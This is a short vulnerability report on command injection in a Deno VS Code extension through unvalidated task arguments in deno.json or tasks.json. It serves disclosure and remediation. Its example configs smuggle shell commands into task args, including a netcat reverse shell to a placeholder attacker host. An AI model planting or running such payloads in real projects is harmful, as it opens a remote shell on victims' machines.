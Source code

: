 # Combined Vulnerability List

---

## 1. Command Injection via Deno Task Configuration
**Vulnerability Name:** Deno Task Configuration Command Injection
**Description:**
The extension executes Deno tasks defined in `deno.json` or `tasks.json` files. Malicious repositories can inject crafted command-line arguments into these configurations, leading to arbitrary command execution. The `buildDenoTask` function in `tasks.ts` constructs commands using unvalidated user-provided arguments.

**Step-by-Step Trigger:**
1. **Malicious `deno.json` Example:**
   ```json
   {
     "tasks": {
       "malicious_task": {
         "command": "run",
         "args": ["--allow-run", "sh -c 'echo EXPLOIT > /tmp/injection.txt'"]
       }
     }
   }
   ```
2. **Malicious `tasks.json` Example:**
   ```json
   {
     "type": "deno",
     "command": "run",
     "args": ["--allow-all", "malicious.ts", "; nc -e /bin/sh attacker_ip 4444"]
   }
   ```
3. The victim opens the repository and runs the task via the VS Code Tasks panel.

**Impact:**
Remote attackers can execute arbitrary code with the user’s privileges, leading to system compromise.
**Vulnerability Rank:** Critical

**Currently Implemented Mitigations:**
None. User-provided `args` are directly executed without sanitization.

**Missing Mitigations:**
- Input validation to block shell metacharacters (e.g., `;`, `|`).
- Restrict allowed command patterns and flags (e.g., `--allow-run`).

**Preconditions:**
- The victim must execute a task defined in `deno.json` or `.vscode/tasks.json`.

**Source Code Analysis:**
- **File:** `client/src/tasks.ts`
  - Line `const args = [definition.command].concat(definition.args ?? []);` directly uses unvalidated arguments.
- **File:** `client/src/tasks_sidebar.ts`
  - Tasks are parsed and executed without validation (e.g., `buildDenoConfigTask`).
